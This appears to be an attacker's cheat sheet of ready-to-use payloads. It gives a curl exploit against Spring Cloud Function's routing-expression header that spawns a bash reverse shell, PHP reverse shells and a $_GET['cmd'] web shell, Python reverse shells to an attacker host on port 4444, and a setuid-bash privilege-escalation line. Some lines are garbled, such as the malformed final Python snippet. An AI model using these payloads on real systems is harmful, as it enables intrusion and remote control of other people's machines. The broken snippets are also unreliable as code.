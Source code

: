 JAVA Spring Boot cloud exploit and rev-shell:
---
```shell
curl -X POST [http://$TARGET_IP:8080/functionRouter](http://$TARGET_IP:8080/functionRouter) -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/$TARGET_IP/4444 0>&1")' --data-raw 'data' -v
```

Windows PHP rev shell
---
[https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php](https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php)

PHP Reverse shell LFI:
---
#php #rev-shell #reverse #rev 

or use system() exec() passthru() shell_exec()

```php
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/$ATTACKER_IP/4444 0>&1'");?>
```

```php
<?php $sock=fsockopen("$ATTACKER_IP",4444);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);?>
```

```php
<?php exec($_GET['cmd']);?>
```

Python Rev shell
---
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$ATTACKER_IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'"
```

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$ATTACKER_IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Python Priv Esc
---
```python
pyimport os;os.system("chmod +s /bin/bash");f=function f2(){};
```
